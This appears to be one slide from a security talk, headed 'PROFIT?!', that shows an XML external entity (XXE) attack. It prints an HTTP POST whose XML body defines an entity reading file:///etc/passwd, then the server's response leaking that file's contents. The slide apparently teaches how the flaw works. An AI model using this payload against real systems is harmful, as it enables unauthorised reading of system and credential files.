

# PROFIT?!
POST /xxe HTTP/1.1

<?xml version="1.0"?>
<!DOCTYPE greeting [
<!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<greeting>&xxe;</greeting>
HTTP/1.1 200 OK

<greeting>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
…</greeting>